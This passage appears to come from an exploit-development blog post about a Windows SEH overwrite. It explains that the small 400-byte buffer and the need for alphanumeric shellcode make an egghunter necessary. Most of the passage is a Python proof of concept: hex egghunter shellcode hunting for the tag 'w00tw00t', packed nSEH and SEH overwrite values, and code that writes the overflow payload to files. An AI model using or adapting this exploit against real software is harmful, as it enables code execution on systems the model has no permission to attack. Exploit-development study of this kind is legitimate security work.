 ##### Due to the fact that we have incredibly small buffer space (400 bytes), and as we require an alphanumeric shellcode, which will double the size of it, an egghunter will be required. For more information, see [here](https://whitecr0wz.github.io/posts/Exploiting-SEH-Overwrites-on-Windows-with-the-use-of-Egghunters/).

![](/assets/img/Findings11/12.png)

##### Current PoC:

```term
import struct

buf = "w00tw00t"
buf += "\xff" * 500

egg = ""
egg += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
egg += "\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x10023B71)

buffer = "A" * 456 + nseh + seh + "A" * 5 + egg + "C" * 200

f = open ("poc.txt", "w")
f.write(buffer)
f.close()

f = open ("buf.txt", "w")
f.write(buf)
f.close()
```
